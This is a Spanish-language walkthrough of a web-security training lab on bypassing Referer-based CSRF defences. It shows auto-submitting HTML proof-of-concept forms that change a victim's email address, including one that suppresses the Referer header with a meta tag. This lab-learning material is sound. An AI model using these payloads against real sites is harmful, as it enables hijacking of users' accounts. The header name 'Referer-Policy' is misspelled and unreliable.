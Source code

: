 
Aparte de las defensas que emplean tokens CSRF, algunas aplicaciones hacen uso de la cabecera HTTP Referer para intentar defenderse de los ataques CSRF, normalmente verificando que la petición se originó en el propio dominio de la aplicación. Este enfoque es generalmente menos eficaz y a menudo está sujeto a elusiones.

### Referer header
El encabezado HTTP Referer (que por error ortográfico aparece en la especificación HTTP) es un encabezado de petición opcional que contiene la URL de la página web que enlaza con el recurso que se está solicitando. Por lo general, los navegadores la añaden automáticamente cuando un usuario inicia una solicitud HTTP, por ejemplo, al hacer clic en un enlace o enviar un formulario. Existen varios métodos que permiten a la página que enlaza retener o modificar el valor de la cabecera Referer. Esto se hace a menudo por razones de privacidad.

### Validation of Referer depends on header being present

Algunas aplicaciones validan la cabecera Referer cuando está presente en las peticiones, pero omiten la validación si se omite la cabecera.

En esta situación, un atacante puede crear su exploit CSRF de forma que el navegador del usuario víctima omita la cabecera Referer en la petición resultante. Hay varias formas de conseguirlo, pero la más sencilla es utilizar una etiqueta META dentro de la página HTML que aloja el ataque CSRF:

```c
<meta name="referrer" content="never">
```

## LAB 

![20250726221508.png](20250726221508.png)

Al interceptara el trafico del sitio web encontraremos con el panel de login en donde tiene la cabecera de `referer` 

![20250726222005.png](20250726222005.png)

al quitarle o ingresar otra esta nos devuelve un `Invalid referer header` por lo que para poder explotar debemos tenerlo en cuenta.

![20250726222039.png](20250726222039.png)

Entendiendo lo anterior, procederemos a construir nuestro POC

```c
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a93009b035187de80ca123700ae0003.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener1&#64;evil&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Como se había mencionando, al probar el código malicioso el sitio web nos da un `Invalid referer header` que no nos deja enviar la solicitud correctamente.

![20250726222110.png](20250726222110.png)

### Primer método 

En el primero método es agregar `<meta name="referrer" content="never">` en nuestro código malicioso

```c
<html>
<meta name="referrer" content="never">
  <body>
    <form action="https://0a93009b035187de80ca123700ae0003.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener1&#64;evil&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Segundo método

El otro método es agregar en las cabeceras  `Referer-Policy: no-referrer`

```c
Referer-Policy: no-referrer
```

![20250726222315.png](20250726222315.png)

![20250726222433.png](20250726222433.png)


